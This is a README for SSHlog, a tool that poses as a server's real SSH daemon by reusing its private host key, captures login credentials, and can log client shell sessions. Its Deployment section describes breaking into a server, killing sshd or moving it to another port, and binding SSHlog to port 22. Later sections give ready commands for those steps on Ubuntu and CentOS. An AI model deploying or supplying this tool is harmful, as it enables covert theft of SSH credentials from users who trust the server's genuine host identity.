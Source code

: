 # SSHlog
SSHlog is a tool to capture SSH credentials and log client commands. It uses the private key of a valid SSH daemon to appear legitimate. It is not a high interaction honeypot. If a client uses valid credentials SSHlog can spawn a real shell and record the input and output of client commands. SSHlog-mini is a simplified version of SSHlog that only captures SSH credentials.

![example](example.png)

## Build
```bash
git clone https://github.com/Zilog-Z80/SSHlog.git
cd SSHlog
go build SSHlog.go
# Alternatively, statically link c libraries with:
# go build -ldflags "-linkmode 'external' -extldflags '-static'" SSHlog.go
./SSHlog
```

## Usage
```bash
./SSHlog # Run with default settings
./SSHlog -h # display usage

Usage of ./SSHlog:
  -k string
    	server private key (default "/etc/ssh/ssh_host_ed25519_key")
  -l	allow clients to login and spawn a shell (default FALSE)
  -m string
    	send message to client on exit (default NONE)
  -p int
    	port (default 22)
  -s	silent mode (default FALSE)
  -v	log to stdout NOT RECOMMENDED (default FALSE)
```

## Deployment
1. Gain access to a server
2. Change the valid SSH daemon's port or kill the daemon
3. Bind SSHlog to port 22 and use the valid daemon's private key
4. Capture login credentials

## Kill sshd
```bash
killall -9 sshd
# pkill -9 sshd
# kill -9 $(pidof sshd)
```

## Change sshd port
Ubuntu 20:  
```bash
nano /etc/ssh/sshd_config
# Uncomment the '#Port 22' line and change to desired port
systemctl restart ssh  
# service ssh restart
```

Ubuntu 22:
```bash
mkdir -p /etc/systemd/system/ssh.socket.d

cat >/etc/systemd/system/ssh.socket.d/listen.conf <<EOF
[Socket]
ListenStream=
ListenStream=1234
EOF

systemctl daemon-reload
systemctl restart ssh
```

CentOS:
```bash
vi /etc/ssh/sshd_config
# Uncomment the '#Port 22' line and change to desired port
yum install policycoreutils
semanage port -a -t ssh_port_t -p tcp <port>
semanage port -m -t ssh_port_t -p tcp <port>
systemctl restart sshd
sudo firewall-cmd --add-port=<port>/tcp --permanent
```
